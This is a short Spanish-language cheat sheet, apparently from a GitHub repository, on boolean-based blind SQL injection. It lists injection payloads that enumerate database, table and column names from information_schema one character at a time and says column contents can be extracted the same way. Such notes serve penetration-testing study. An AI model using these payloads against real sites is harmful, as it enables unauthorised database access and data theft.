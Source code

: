 
# Blind SQL Injection Boolean Based — Enumeración con iteración

Cuando detectamos una inyección Boolean Based Blind SQL, obtenemos respuestas verdadero/falso. Por eso se usa iteración para extraer información carácter a carácter.

---

## Paso 1: Encontrar nombres de bases de datos

La consulta para obtener el carácter en la posición `pos` del nombre de la base de datos número `N` es:

```sql
' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT N,1), pos, 1)) = X -- -
```

Donde:

- `N` es el índice del nombre de base de datos (0, 1, 2, ...)
- `pos` es la posición del carácter dentro del nombre (1, 2, 3, ...)
- `X` es el código ASCII del carácter que se prueba (por ejemplo, 97 para 'a')

Para iterar la letra y posición, se prueba con diferentes valores de `X` (normalmente entre 32 y 126) y se aumenta `pos` hasta que no haya más caracteres (lo que se detecta porque la condición devuelve falso).

---

## Paso 2: Enumerar tablas de una base de datos específica

Para la base de datos `nombre_bd`, usamos:

```sql
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='nombre_bd' LIMIT N,1), pos, 1)) = X -- -
```

---

## Paso 3: Enumerar columnas de una tabla

Para la tabla `nombre_tabla` dentro de la base `nombre_bd`:

```sql
' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='nombre_bd' AND table_name='nombre_tabla' LIMIT N,1), pos, 1)) = X -- -
```

---
---
### Cómo extraer los datos de las columnas
Una vez que tienes el nombre de la base de datos, las tablas y las columnas, puedes extraer el contenido de las columnas de forma similar, iterando carácter a carácter.
